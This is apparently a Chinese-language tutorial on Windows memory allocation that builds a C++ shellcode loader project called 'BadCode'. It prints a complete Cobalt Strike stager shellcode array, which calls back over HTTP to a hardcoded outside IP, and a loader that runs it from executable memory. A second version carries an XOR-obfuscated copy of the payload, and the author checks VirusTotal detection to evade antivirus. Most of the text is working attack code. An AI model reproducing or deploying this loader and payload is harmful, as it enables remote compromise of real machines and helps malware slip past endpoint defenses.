





# 0x01 关于Windows操作系统内存

Windows操作系统的内存有三种属性，分别为：可读、可写、可执行，并且操作系统将每个进程的内存都隔离开来，当进程运行时，创建一个虚拟的内存空间，系统的内存管理器将虚拟内存空间映射到物理内存上，所以每个进程的内存都是等大的。

在进程申请时，需要声明这块内存的基本信息：申请内存大小、申请内存起始内存基址、申请内存属性、申请内存对外的权限等。

申请方式：

- HeapAlloc
- malloc
- VirtualAlloc
- new
- LocalAlloc

# 0x02 申请内存API的关系

其实以上所有的内存申请方式都与VirtualAlloc有关，因为VirtualAlloc申请的单位是“页”。而Windows操作系统管理内存的单位也是“页”。

# 0x03 实现一次正常加载

这里我创建了一个C++项目，名字为：BadCode

先来使用cobaltstrike默认的shellcode进行加载，为了方便阅读参考，在代码中我会尽量留下注释。

```c_cpp
#include <windows.h>

// 定义Shellcode
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x4c\x62\x63\x4c\x00\x7d\x0c\x3f\x6c\x10\xda\x27\x3a\x9a\xfa\xb5\xaf\x93\x6f\x3e\x84\x3d\x1b\x3a\xef\x5e\x9a\x5b\x26\xb9\x59\x2f\x77\x80\xfd\x5e\xcf\x2a\x6f\x11\xaf\x89\x83\xa2\x9d\xc8\x42\xc7\xb7\x10\xbb\x4e\x49\x9d\x5b\xa1\xcd\xdd\xc3\xd2\xb0\xc6\xf4\xe6\xa5\xa1\x33\xa9\x27\xe3\xe4\x05\x19\x46\xed\xa6\x61\x2a\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x38\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x34\x2e\x30\x29\x0d\x0a\x00\x50\xd4\xd0\xc5\x20\x66\x50\x63\x65\x51\x66\x3e\x79\x15\x7f\x72\x8d\x2b\x74\x64\xf5\x1b\x6c\xdb\x5b\x7c\x2c\x37\x9d\xb1\xa3\xa8\xc4\x51\x9b\xfd\x8d\x68\x42\xe7\x0b\xd5\x99\xf2\x42\x77\xaa\xb0\x4e\x6c\x54\x39\xe5\x70\xc8\x06\x9d\xdc\xe4\xca\x80\x99\x01\x80\xa4\x23\x34\xc1\x4a\xa8\xa6\x27\x54\xf1\xb3\x70\x34\x49\x6d\xf5\x41\x70\xe8\xe0\x65\xbb\x7c\xf8\xbd\x64\x0f\xc8\xf1\x6c\xed\x76\x66\xa9\xf1\x0c\x29\x3f\xd0\xd0\x93\x9c\x27\xc2\x74\x22\xd0\x69\xd0\x6d\x87\xab\x54\x07\x9d\x4e\xc2\x60\x65\xbe\xc5\x2d\xa5\x7a\xcc\x48\x49\x6a\xd0\xa2\xb6\x7e\x26\x5e\x09\x2c\xf8\x9c\x40\x2c\xf8\x0e\xfd\x8d\xf7\x89\xbe\xd3\x46\x30\x9e\x94\x93\x15\x2a\xf5\x55\x66\x3d\xda\xb7\xc2\x28\xf3\xf4\xc5\x3c\x17\x2d\xc7\xe9\x2d\xbe\xd9\x02\x59\xed\x56\x3a\x7b\xb1\xbd\x16\xbc\x25\x43\x52\x36\xb6\x91\x52\x2f\x28\x91\xc8\x7b\x10\x3b\x27\x5d\xb9\x68\xf6\x7c\x45\x5d\x2f\x9b\x59\x23\xeb\x04\x3e\x8e\xa2\xdc\x21\x65\xba\xf3\x28\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x38\x2e\x31\x33\x30\x2e\x33\x35\x2e\x31\x33\x33\x00\x12\x34\x56\x78";

int main()
{
	PVOID Memory;
	// 动态分配虚拟地址空间
	Memory = VirtualAlloc(
		NULL,                           // 让系统选择内存基址
		sizeof(buf),                    // 分配的内存大小
		MEM_COMMIT | MEM_RESERVE,       // 提交并保留内存
		PAGE_EXECUTE_READWRITE          // 可读、可写、可执行
		);
	
	// 复制内存内容，将Shellcode复制到新分配的内存中
	memcpy(Memory, buf, sizeof(buf));
	
	// 执行Shellcode，将分配的内存地址转换为函数指针并调用
	((void(*)())Memory)();
}
```





编译成功后，运行：



V站查杀结果：



https://www.virustotal.com/gui/file/00b0fe741923838b5757281e2ea37c0732c88443a8a4730f384371d8a8b0c2b0/detection

这个效果已经很好，但是我想要更好。

# 0x04 实现一次混淆加载

使用之前的Python脚本混淆生成RAW文件，最后得到混淆后的数组：

```c_cpp
#include <windows.h>

// 定义Shellcode
unsigned char buf[] = "\xf6\x42\x89\xee\xfa\xe2\xc2\x0a\x0a\x0a\x4b\x5b\x4b\x5a\x58\x5b\x5c\x42\x3b\xd8\x6f\x42\x81\x58\x6a\x42\x81\x58\x12\x42\x81\x58\x2a\x42\x81\x78\x5a\x42\x05\xbd\x40\x40\x47\x3b\xc3\x42\x3b\xca\xa6\x36\x6b\x76\x08\x26\x2a\x4b\xcb\xc3\x07\x4b\x0b\xcb\xe8\xe7\x58\x4b\x5b\x42\x81\x58\x2a\x81\x48\x36\x42\x0b\xda\x6c\x8b\x72\x12\x01\x08\x7f\x78\x81\x8a\x82\x0a\x0a\x0a\x42\x8f\xca\x7e\x6d\x42\x0b\xda\x5a\x81\x42\x12\x4e\x81\x4a\x2a\x43\x0b\xda\xe9\x5c\x42\xf5\xc3\x4b\x81\x3e\x82\x42\x0b\xdc\x47\x3b\xc3\x42\x3b\xca\xa6\x4b\xcb\xc3\x07\x4b\x0b\xcb\x32\xea\x7f\xfb\x46\x09\x46\x2e\x02\x4f\x33\xdb\x7f\xd2\x52\x4e\x81\x4a\x2e\x43\x0b\xda\x6c\x4b\x81\x06\x42\x4e\x81\x4a\x16\x43\x0b\xda\x4b\x81\x0e\x82\x42\x0b\xda\x4b\x52\x4b\x52\x54\x53\x50\x4b\x52\x4b\x53\x4b\x50\x42\x89\xe6\x2a\x4b\x58\xf5\xea\x52\x4b\x53\x50\x42\x81\x18\xe3\x45\xf5\xf5\xf5\x57\x60\x0a\x43\xb4\x7d\x63\x64\x63\x64\x6f\x7e\x0a\x4b\x5c\x43\x83\xec\x46\x83\xfb\x4b\xb0\x46\x7d\x2c\x0d\xf5\xdf\x42\x3b\xc3\x42\x3b\xd8\x47\x3b\xca\x47\x3b\xc3\x4b\x5a\x4b\x5a\x4b\xb0\x30\x5c\x73\xad\xf5\xdf\xe1\x79\x50\x42\x83\xcb\x4b\xb2\x9a\x15\x0a\x0a\x47\x3b\xc3\x4b\x5b\x4b\x5b\x60\x09\x4b\x5b\x4b\xb0\x5d\x83\x95\xcc\xf5\xdf\xe1\x53\x51\x42\x83\xcb\x42\x3b\xd8\x43\x83\xd2\x47\x3b\xc3\x58\x62\x0a\x08\x4a\x8e\x58\x58\x4b\xb0\xe1\x5f\x24\x31\xf5\xdf\x42\x83\xcc\x42\x89\xc9\x5a\x60\x00\x55\x42\x83\xfb\x42\x83\xd0\x43\xcd\xca\xf5\xf5\xf5\xf5\x47\x3b\xc3\x58\x58\x4b\xb0\x27\x0c\x12\x71\xf5\xdf\x8f\xca\x05\x8f\x97\x0b\x0a\x0a\x42\xf5\xc5\x05\x8e\x86\x0b\x0a\x0a\xe1\xd9\xe3\xee\x0b\x0a\x0a\xe2\xa8\xf5\xf5\xf5\x25\x69\x3d\x61\x52\x0a\xb8\x7d\x15\xc9\x4a\x30\x31\x1c\x52\x56\x76\xcb\xa3\xce\xba\x64\xa3\xc1\x5e\x4b\xf6\x64\x86\x16\x29\xd7\xdd\xc3\x53\xc1\x55\x44\xde\xd5\xb6\x22\xae\xe1\x66\x1c\x54\x81\xf8\x4d\xfb\xc7\x5e\x09\xe0\x94\x73\x3e\xb0\xeb\x74\x18\x1c\x00\xbb\x9d\x64\x6c\xc2\x7b\x09\x5d\xd8\xf1\x00\xd4\xbb\x02\x62\x0a\x5f\x79\x6f\x78\x27\x4b\x6d\x6f\x64\x7e\x30\x2a\x47\x65\x70\x63\x66\x66\x6b\x25\x3f\x24\x3a\x2a\x22\x69\x65\x67\x7a\x6b\x7e\x63\x68\x66\x6f\x31\x2a\x47\x59\x43\x4f\x2a\x33\x24\x3a\x31\x2a\x5d\x63\x64\x6e\x65\x7d\x79\x2a\x44\x5e\x2a\x3c\x24\x3b\x31\x2a\x5d\x45\x5d\x3c\x3e\x31\x2a\x5e\x78\x63\x6e\x6f\x64\x7e\x25\x3f\x24\x3a\x31\x2a\x48\x45\x43\x4f\x33\x31\x4f\x44\x5f\x59\x47\x59\x4f\x23\x07\x00\x0a\xad\xca\x7a\xaa\x8d\xe2\x86\x23\x72\x21\xa5\xda\x0c\x69\x43\xf8\x93\x49\xba\x17\xe7\xc0\x70\x37\x31\x59\x8c\x85\x66\xfb\xee\x61\x07\xb7\x40\x4e\x61\x77\xac\xdb\x06\x92\xbb\xf3\xfa\xac\x35\xed\xf0\x28\xb4\xe9\xed\x76\xe9\xcd\x2d\x84\xb6\xcb\x9e\xc7\xe3\x88\xb4\x25\x4d\x1b\x60\x0e\x63\x56\x7e\xdd\xdf\x6a\xbc\xc2\x7c\x6b\xcc\x25\x89\xc8\x44\x65\x81\x42\x24\x0b\x65\x44\xd5\xf4\x92\x46\x12\x2e\x6c\xf9\x92\x7c\xf6\x36\x4f\x94\xb9\x67\x07\xea\xef\x54\x6b\x5e\xc7\xbd\x10\x4b\x10\xf1\x5b\xce\xcd\xde\x9c\x74\xda\x83\x21\x27\xdd\xdc\x93\x1e\xdc\x9f\xac\x4a\x74\xd8\x96\x9f\xe5\x2e\xb5\xaf\xa1\xf2\xff\x41\xfe\x33\x36\xe4\x4b\x2f\x56\x3d\xe3\x58\x8d\x53\x79\x4c\x31\x13\x70\xd5\xa5\xd7\x07\xe4\x04\xc8\x62\xef\x20\x5e\x19\x47\xd9\x85\x4d\x9d\xda\x5d\xfe\x3c\x73\x80\x1e\x25\x00\x78\x92\x4a\x92\x2f\x6c\xd6\x4e\x20\xe6\x0a\x4b\xb4\xfa\xbf\xa8\x5c\xf5\xdf\x42\x3b\xc3\xb0\x0a\x0a\x4a\x0a\x4b\xb2\x0a\x1a\x0a\x0a\x4b\xb3\x4a\x0a\x0a\x0a\x4b\xb0\x52\xae\x59\xef\xf5\xdf\x42\x99\x59\x59\x42\x83\xed\x42\x83\xfb\x42\x83\xd0\x4b\xb2\x0a\x2a\x0a\x0a\x43\x83\xf3\x4b\xb0\x18\x9c\x83\xe8\xf5\xdf\x42\x89\xce\x2a\x8f\xca\x7e\xbc\x6c\x81\x0d\x42\x0b\xc9\x8f\xca\x7f\xdd\x52\x52\x52\x42\x0f\x0a\x0a\x0a\x0a\x5a\xc9\xe2\x95\xf7\xf5\xf5\x32\x24\x3b\x39\x3a\x24\x39\x3f\x24\x3b\x39\x39\x0a\x18\x3e\x5c\x72";

int main()
{
	PVOID Memory;
	// 动态分配虚拟地址空间
	Memory = VirtualAlloc(
		NULL,                           // 让系统选择内存基址
		sizeof(buf),                    // 分配的内存大小
		MEM_COMMIT | MEM_RESERVE,       // 提交并保留内存
		PAGE_EXECUTE_READWRITE          // 可读、可写、可执行
		);
	
	// 复制内存内容，将Shellcode复制到新分配的内存中
	memcpy(Memory, buf, sizeof(buf));
	
	// 执行Shellcode，将分配的内存地址转换为函数指针并调用
	((void(*)())Memory)();
}
```

上线效果：


V站查杀：

